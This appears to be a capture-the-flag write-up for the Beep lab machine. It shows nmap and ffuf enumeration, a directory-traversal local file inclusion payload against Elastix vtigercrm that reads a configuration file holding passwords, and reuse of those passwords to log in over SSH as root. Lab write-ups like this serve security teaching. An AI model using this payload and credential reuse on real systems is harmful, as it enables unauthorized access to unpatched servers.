


Target: 10.10.10.7

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.10.7 -Pn

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 02:52 PDT
Nmap scan report for 10.10.10.7
Host is up (0.11s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2021-05-16T09:56:00+00:00; -1s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u https://10.10.10.7/FUZZ

images                  [Status: 301, Size: 310, Words: 20, Lines: 10]
help                    [Status: 301, Size: 308, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 310, Words: 20, Lines: 10]
modules                 [Status: 301, Size: 311, Words: 20, Lines: 10]
mail                    [Status: 301, Size: 308, Words: 20, Lines: 10]
admin                   [Status: 301, Size: 309, Words: 20, Lines: 10]
static                  [Status: 301, Size: 310, Words: 20, Lines: 10]
lang                    [Status: 301, Size: 308, Words: 20, Lines: 10]
var                     [Status: 301, Size: 307, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 309, Words: 20, Lines: 10]
libs                    [Status: 301, Size: 308, Words: 20, Lines: 10]
recordings              [Status: 301, Size: 314, Words: 20, Lines: 10]
configs                 [Status: 301, Size: 311, Words: 20, Lines: 10]
```

checking 10.10.10.7


### Findings:Looking for attack vectors

Search for exploits on outdated running services.


## Foothold:

searching for elastix exploits

[Exploit Link](https://www.exploit-db.com/exploits/37637)

```
LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

testing lfi vulnerablity


viewing source to read better


```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

Loot:

asteriskuser:jEhdIekWmdjE

admin:jEhdIekWmdjE

testing for password reuse
```
$ ssh root@10.10.10.7    

Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

fixing legacy issues
```
$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7 

[root@beep ~]# id

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

```
cat /home/fanis/user.txt

<redacted>

cat /root/root.txt

<redacted>
```
